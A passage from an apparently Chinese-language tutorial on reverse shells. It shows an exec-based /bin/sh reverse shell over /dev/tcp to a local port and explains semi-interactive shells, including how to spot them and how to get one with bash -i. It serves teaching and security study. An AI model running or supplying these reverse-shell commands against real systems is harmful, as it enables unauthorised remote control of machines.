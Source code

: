 2、EXEC反弹

再试一下 exec 反弹的 bash ，被控端运行如下命令，控制端命令如上。

```text
exec /bin/sh 0</dev/tcp/127.0.0.1/8080 1>&0 2>&0
```

连通状态和 nc 反弹是类似的， sh 的输入输出句柄都有网络连接 , 从而保证了网络与命令之间的实时连通

![](../../.gitbook/assets/image%20%28459%29.png)

当然为了保证网络与命令之间的实时连通 也不一定全是这种情况，大家可以了解一下 select ， epoll 机制

### 3、半交互式

上面讲解了非交互式，更进一步，聊一下半交互式。半交互式，大家可能没有太多的概念，但是使用的时候还是挺多的，例 如 bash -i 这种类型的反弹，其实属于半交互式。对半交互式 shell 的定义： 半交互式反弹 shell 有上下文，但相比终端交互 能力弱，如何判断是否是半交互式 shell ，运行两个命令就可以知道： 

1. 运行 history 命令，有输出 
2. 运行 top 命令，无输出。 

至于如何产生半交互式反弹 shell ，常见的有如下两种办法，我们依次试一下

1、在连通类非交互式反弹 shell 中，运行 `bash -i`

在上一节的基础上，控制端运行 bash -i , 我们看到受控端机器上的当前路径被映射到了本地

![](../../.gitbook/assets/image%20%28446%29.png)
